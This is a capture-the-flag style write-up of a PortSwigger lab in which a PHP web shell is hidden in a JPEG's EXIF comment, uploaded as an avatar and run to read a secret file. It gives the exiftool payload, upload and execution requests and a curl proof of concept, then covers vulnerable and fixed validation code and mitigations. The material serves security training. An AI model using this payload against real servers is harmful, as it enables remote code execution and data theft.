





# Lab 06: Remote Code Execution via Polyglot Web Shell Upload

> **Topic**: File Upload Vulnerabilities
> **Lab Number**: 06
> **Platform**: PortSwigger Web Security Academy

## Category
File Upload — Polyglot File (Valid JPEG + Embedded PHP) Bypasses Magic Byte Validation

## Vulnerability Summary
The application validates uploaded files by inspecting their magic bytes to confirm they are genuine images, and also checks the file extension. However, it does not strip or sanitize file metadata. By using `exiftool` to embed a PHP web shell inside the EXIF `Comment` field of a real JPEG image and saving it with a `.php` extension, the resulting file is simultaneously a valid JPEG (passes magic byte inspection) and executable PHP (the server runs it when requested). The PHP payload embedded in the EXIF data is executed by Apache, returning the contents of `/home/carlos/secret`.

## Attack Methodology

### Step 1: Install exiftool
```bash
sudo pacman -S perl-image-exiftool
exiftool --ver
```

`exiftool` is a Perl-based tool for reading and writing metadata in image files.

### Step 2: Download a Legitimate JPEG
```bash
cd ~/Downloads && curl -o input.jpg "https://www.gstatic.com/webp/gallery/1.jpg"
ls -la ~/Downloads/input.jpg
# -rw-r--r-- 1 vibhxr vibhxr 44891 May 13 20:58 /home/vibhxr/Downloads/input.jpg
```

### Step 3: Embed PHP Payload in EXIF Comment
Used `exiftool` to write the PHP web shell into the JPEG's `Comment` metadata field, outputting the result as `polyglot.php`:

```bash
exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" \
  input.jpg -o polyglot.php
# 1 image files created

ls -la ~/Downloads/polyglot.php
```

The resulting file:
- Starts with `FF D8 FF` (valid JPEG magic bytes) — passes image content validation
- Contains `<?php ... ?>` in the EXIF Comment field — executed as PHP by Apache

### Step 4: Upload `polyglot.php`
Uploaded `polyglot.php` via the avatar upload form. The server's magic byte check sees a valid JPEG and accepts it. The `.php` extension is permitted (or the server stores it as-is):

```http
POST /my-account/avatar HTTP/2
Host: 0a80003104f560df825183c200740019.web-security-academy.net
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary...

------WebKitFormBoundary...
Content-Disposition: form-data; name="avatar"; filename="polyglot.php"
Content-Type: image/jpeg

[binary JPEG data with PHP payload in EXIF Comment]
------WebKitFormBoundary...--
```

Response: `The file avatars/polyglot.php has been uploaded.`

### Step 5: Execute the Web Shell
```http
GET /files/avatars/polyglot.php HTTP/2
Host: 0a80003104f560df825183c200740019.web-security-academy.net
Cookie: session=aoQeB0lwEgT8kbjf5EvWm1bzM7g0FWRA
```

Response:

```http
HTTP/2 200 OK
Content-Type: text/html; charset=UTF-8
Content-Length: 44937

y0yàJFIFybM START xEiaYGMoni67P6JkN1RuAk2kKnbEXwFe ENDyÜC
[... rest of JPEG binary data ...]
```

The PHP in the EXIF Comment was executed. The secret appears between the `START` and `END` markers. Lab solved.











## Technical Root Cause

### Vulnerable Validation (Magic Bytes Only)
```python
import magic

def upload_avatar(request):
    file = request.FILES['avatar']
    header = file.read(16)
    file.seek(0)

    # Checks magic bytes — JPEG starts with FF D8 FF ✅
    detected = magic.from_buffer(header, mime=True)
    if detected not in {'image/jpeg', 'image/png'}:
        return HttpResponseForbidden('Only image files are allowed')

    # Saves with original filename including .php extension
    save_path = f'/var/www/files/avatars/{file.name}'
    with open(save_path, 'wb') as f:
        f.write(file.read())
```

The polyglot file passes because:
1. Its first bytes are `FF D8 FF E0` — a valid JPEG header
2. The PHP payload lives in the EXIF `Comment` tag, deep inside the file
3. The file is saved as `polyglot.php` — Apache executes it as PHP
4. PHP's parser scans the entire file for `<?php` tags, finds the one in the EXIF data, and executes it

### Secure Validation
```python
from PIL import Image
import io, uuid

def upload_avatar(request):
    file = request.FILES['avatar']
    data = file.read()

    # Re-encode through PIL — strips all metadata including EXIF
    try:
        img = Image.open(io.BytesIO(data))
        img.verify()           # raises if not a valid image
        img = Image.open(io.BytesIO(data))  # reopen after verify
        output = io.BytesIO()
        img.save(output, format='JPEG')     # re-encode, drops EXIF
        clean_data = output.getvalue()
    except Exception:
        return HttpResponseForbidden('Invalid image')

    # Save with UUID name, never the original filename
    safe_name = f'{uuid.uuid4()}.jpg'
    with open(f'/var/www/files/avatars/{safe_name}', 'wb') as f:
        f.write(clean_data)
```

Re-encoding through a image library strips all EXIF metadata, making polyglot attacks impossible.

## Impact
- **Magic Byte Validation Bypassed**: A file that is simultaneously a valid JPEG and executable PHP defeats content-inspection defences
- **Remote Code Execution**: The PHP payload executes with web server privileges
- **Persistent Access**: The uploaded polyglot remains on the server until explicitly removed

**Severity: Critical**

## Proof of Concept

```bash
# 1. Create polyglot
exiftool -Comment="<?php echo file_get_contents('/home/carlos/secret'); ?>" \
  input.jpg -o polyglot.php

# 2. Upload polyglot.php (accepted as valid JPEG)
curl -b cookies.txt https://<lab>/my-account/avatar \
  -F "csrf=<token>" -F "user=wiener" \
  -F "avatar=@polyglot.php;type=image/jpeg"

# 3. Execute
curl -b cookies.txt https://<lab>/files/avatars/polyglot.php
```

## Key Takeaways
1. **Magic Byte Inspection Is Not Sufficient**: A file can have valid image magic bytes AND contain executable code. Checking only the file header does not guarantee the file is safe to store and serve with a script-executable extension.
2. **Re-encode Images Server-Side**: Processing uploads through an image library (PIL/Pillow, ImageMagick) and re-saving them strips all metadata including EXIF, XMP, and comments — eliminating polyglot payloads entirely.
3. **Never Preserve the Original Filename or Extension**: The `.php` extension is what causes Apache to execute the file. Renaming to a UUID with a server-determined safe extension (`.jpg`) breaks the execution chain even if a polyglot is stored.
4. **Serve Uploads from a Non-Executable Context**: Uploads served from a directory or subdomain with PHP execution disabled cannot be executed regardless of content.

## Mitigation

### Re-encode via PIL (Strips EXIF)
```python
from PIL import Image
import io
img = Image.open(io.BytesIO(file_data))
out = io.BytesIO()
img.save(out, format='JPEG')  # EXIF stripped
```

### Strip EXIF Explicitly with exiftool (Server-Side)
```bash
exiftool -all= uploaded_file.jpg
```

### Rename to UUID
```python
safe_name = f'{uuid.uuid4()}.jpg'
```

### Disable PHP in Upload Directory
```apache
<Directory /var/www/files/avatars>
    php_flag engine off
</Directory>
```

## References
- [PortSwigger — Remote Code Execution via Polyglot Web Shell Upload](https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-polyglot-web-shell-upload)
- [PortSwigger — File Upload Vulnerabilities](https://portswigger.net/web-security/file-upload)
- [ExifTool Documentation](https://exiftool.org/)
- [OWASP — Unrestricted File Upload](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)
- [CWE-434: Unrestricted Upload of File with Dangerous Type](https://cwe.mitre.org/data/definitions/434.html)

## Tools Used
- Burp Suite Professional (Proxy, Repeater)
- exiftool (perl-image-exiftool)
- curl
- Chromium

---

*Lab completed on: 2026-05-13*  
*Writeup by vibhxr*
